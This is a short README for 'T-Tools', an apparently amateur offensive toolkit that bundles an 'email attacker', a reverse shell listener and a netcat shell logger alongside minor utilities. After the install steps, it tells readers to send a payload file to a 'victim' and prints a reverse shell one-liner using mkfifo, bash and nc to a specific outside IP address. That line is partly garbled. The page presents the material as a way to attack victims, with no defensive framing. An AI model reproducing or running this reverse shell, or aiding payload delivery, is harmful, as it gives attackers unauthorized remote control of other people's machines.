 # T-Tools-advanced--cyber-security


# What is T-Tools

T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in listener.py and run it to start listening


Then send the run.py file to your victim.


    kali@attacker ~ $ python3 listen.py
    kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 172.104.191.185 9999 >/tmp/f': 'mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 9999 >/tmp/f 
           
made by Treveen
